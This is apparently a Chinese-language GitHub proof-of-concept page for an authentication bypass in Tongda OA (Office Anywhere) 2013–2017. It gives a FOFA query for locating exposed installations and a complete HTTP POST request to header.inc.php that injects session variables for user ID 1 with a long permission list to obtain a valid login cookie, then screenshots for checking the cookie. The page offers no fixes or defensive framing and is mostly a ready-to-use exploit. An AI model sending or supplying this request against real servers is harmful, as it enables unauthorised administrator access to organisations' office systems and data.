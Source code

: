 ## 通达OA header身份认证绕过漏洞
通达OA（Office Anywhere网络智能办公系统）是中国通达公司的一套协同办公自动化软件，通达OA2013，通达OA2016，通达OA2017 存在身份认证绕过漏洞，攻击者通过构造特定的数据包，获取登录cookie，利用cookie进行未授权访问。

## fofa
```
title="office Anywhere"
```


## poc
```
POST /module/retrieve_pwd/header.inc.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024

_SESSION[LOGIN_THEME]=15&_SESSION[LOGIN_USER_ID]=1&_SESSION[LOGIN_UID]=1&_SESSION[LOGIN_FUNC_STR]=1,3,42,643,644,634,4,147,148,7,8,9,10,16,11,130,5,131,132,256,229,182,183,194,637,134,37,135,136,226,253,254,255,536,24,196,105,119,80,96,97,98,114,126,179,607,539,251,127,238,128,85,86,87,88,89,137,138,222,90,91,92,152,93,94,95,118,237,108,109,110,112,51,53,54,153,217,150,239,240,218,219,43,17,18,19,15,36,70,76,77,115,116,185,235,535,59,133,64,257,2,74,12,68,66,67,13,14,40,41,44,75,27,60,61,481,482,483,484,485,486,487,488,489,490,491,492,120,494,495,496,497,498,499,500,501,502,503,505,504,26,506,507,508,515,537,122,123,124,628,125,630,631,632,633,55,514,509,29,28,129,510,511,224,39,512,513,252,230,231,232,629,233,234,461,462,463,464,465,466,467,468,469,470,471,472,473,474,475,200,202,201,203,204,205,206,207,208,209,65,187,186,188,189,190,191,606,192,193,221,550,551,73,62,63,34,532,548,640,641,642,549,601,600,602,603,604,46,21,22,227,56,30,31,33,32,605,57,609,103,146,107,197,228,58,538,151,6,534,69,71,72,223,639,

```
![image](https://github.com/wy876/POC/assets/139549762/b5cf4a04-f5e9-47d5-b463-528fac5133c0)

第二步：验证cookie是否有效
![image](https://github.com/wy876/POC/assets/139549762/161f8b28-059c-4132-b9b7-8435dd124e14)

![image](https://github.com/wy876/POC/assets/139549762/f44e5dc2-2a95-4900-9f71-9001ef870980)
